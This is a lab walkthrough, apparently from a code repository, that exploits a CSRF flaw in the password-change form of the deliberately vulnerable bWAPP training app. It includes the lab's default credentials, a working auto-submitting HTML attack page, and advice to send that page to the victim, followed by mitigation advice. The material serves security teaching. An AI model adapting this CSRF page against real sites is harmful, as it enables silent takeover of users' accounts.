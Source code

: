 # 🛡️ CSRF Exploit – bWAPP Walkthrough

# 🔧 Environment
- **App**: bWAPP (Bee-Box VM)
- **Module**: CSRF → Change Password (low security)
- **Tools**: Browser, Burp Suite

---

# 🎯 Objective
Exploit a CSRF vulnerability to change another user's password **without their knowledge**.

---

# 🔍 Steps to Reproduce

### 1. Login as victim user
URL: `http://localhost/bWAPP/login.php`

Credentials:
- Username: `bee`
- Password: `bug`

Navigate to: `http://localhost/bWAPP/csrf_1.php`

### 2. Inspect Change Password Form

The form sends a POST request like:

```http
POST /bWAPP/csrf_1.php
password_new=test123&password_conf=test123&form=submit

### 3. Create Malicious CSRF Page

```

<!DOCTYPE html>
<html>
  <body>
    <form action="http://localhost/bWAPP/csrf_1.php" method="POST">
      <input type="hidden" name="password_new" value="hacked123">
      <input type="hidden" name="password_conf" value="hacked123">
      <input type="hidden" name="form" value="submit">
      <input type="submit" value="Click me">
    </form>
    <script>
      document.forms[0].submit(); // Auto-submit the form
    </script>
  </body>
</html>

---

Host this file and send it to the victim. Once they open it while logged in, their password gets changed silently.

🧪 Test Verification

Try logging in with:

Username: bee
Password: hacked123

If successful: CSRF vulnerability confirmed

🧰 Mitigation Measures

Anti-CSRF tokens: Use unpredictable tokens tied to session.
SameSite Cookies: Set SameSite=Strict or Lax in cookie headers.
Referer or Origin Checks: Validate that requests originate from the same domain.

Example using token:

html code


<input type="hidden" name="csrf_token" value="abc123">
Server must verify this token before processing.

✅ Summary
CSRF can silently exploit authenticated sessions. Even simple state-changing actions like changing passwords or emails can be hijacked. Always use tokens and strict cookie policies to defend against it.


